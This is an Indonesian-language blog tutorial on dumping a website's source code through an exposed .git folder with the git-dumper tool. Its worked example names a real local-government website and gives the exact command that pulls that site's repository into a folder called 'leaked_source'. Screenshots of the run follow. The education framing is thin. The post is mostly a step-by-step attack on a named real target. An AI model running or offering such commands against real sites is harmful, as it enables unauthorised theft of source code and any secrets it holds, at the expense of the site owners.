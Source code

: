 ```yaml
---
title: Pengungkapan Source Code Melalui Git Yang Terbuka
date: 2022-08-18 11:58:47 +07:00
modified:
tags: [exploit, hacking, tutorial, leaked]
description: Pengungkapan Source Code Melalui Git Yang Terbuka
image: "/pengungkapan-source-code-melalui-git-yang-terbuka/thumb.jpg"
---
```


Tulisan ini saya buat sebagai bentuk dokumentasi atau write up untuk diri saya sendiri, pengungkapan source code melalui git yang terbuka.

#### Apa Itu Folder .git?
.git adalah folder yang berisi semua informasi yang diperlukan untuk proyek Anda di kontrol versi dan semua informasi tentang komit, alamat repositori jarak jauh, dll. Semuanya ada di folder ini. Ini juga berisi log yang menyimpan riwayat komit Anda sehingga Anda dapat memutar kembali ke riwayat.

#### Mengapa Git Digunakan Dalam Web Development?
Git sebagian besar digunakan saat Anda membuat situs web di komputer dan menggunakan Git untuk mendorong salinan file tersebut ke server web. Jika sesuatu terjadi pada komputer Anda, Anda masih memiliki salinan lengkap di server web. Anda kemudian dapat mengonfigurasi repositori server web ini untuk mendorong perubahan langsung ke situs web Anda. Ini memberikan keuntungan bagi pengembang dan memberi mereka kemudahan pengembangan

#### Langkah Untuk Melakukan Pengungkapan Source Code
Pertama, anda harus menginstall **git dumper**, git dumper adalah sebuah alat yang mampu mengambil source code di dalam folder git dan menyalin nya ke komputer anda.

1) Install Git Dumper

```bash
$ git clone https://github.com/arthaud/git-dumper
```

2) Tentukan Website

Disini saya akan menggunakan website <a href="https://gismenara.lomboktengahkab.go.id/">https://gismenara.lomboktengahkab.go.id</a> silahkan anda cari folder git di website nya, seperti <a href="https://gismenara.lomboktengahkab.go.id/.git/">https://gismenara.lomboktengahkab.go.id/.git/</a> beberapa website akan menampilkan 403 Forbidden dan ada yang akan terbuka, jika anda menemukan 403 Forbidden jangan khawatir karena sebenernya folder .git nya masih ada.

3) Install Module

```bash
$ pip install -r requirements.txt
```
Module ini di gunakan untuk pelengkap atau syarat untuk menjalankan alatnya.

4) Jalankan Alatnya

```bash
$ python3 git_dumper.py site folder_output
```
Contoh:
```bash
$ python3 git_dumper.py https://gismenara.lomboktengahkab.go.id/.git leaked_source
```

<figure>
<img src="https://raw.githubusercontent.com/africode7/rtd/master/_posts/pengungkapan-source-code-melalui-git-yang-terbuka/1.png" alt="1. Jalankan Alatnya">
<figcaption>1. Jalankan Alatnya</figcaption>
</figure>

<figure>
<img src="https://raw.githubusercontent.com/africode7/rtd/master/_posts/pengungkapan-source-code-melalui-git-yang-terbuka/2.png" alt="Tunggu Hingga Selesai">
<figcaption>2. Tunggu Hingga Selesai</figcaption>
</figure>

Setelah itu, silahkan anda cek hasil nya di dalam folder yang anda sudah buat sebelumnya, sebagai contoh sebelumnya saya memberi nama folder **leaked_source**

<figure>
<img src="https://raw.githubusercontent.com/africode7/rtd/master/_posts/pengungkapan-source-code-melalui-git-yang-terbuka/3.png" alt="Cek Hasilnya di dalam folder">
<figcaption>3. Cek Hasilnya Di Dalam Folder</figcaption>
</figure>

Tulisan ini saya buat hanya untuk dokumentasi atau write up untuk diri saya sendiri, tentu nya untuk edukasi, terima kasih sudah melihat tulisan ini.

_Penulis menerima kritik dan saran._
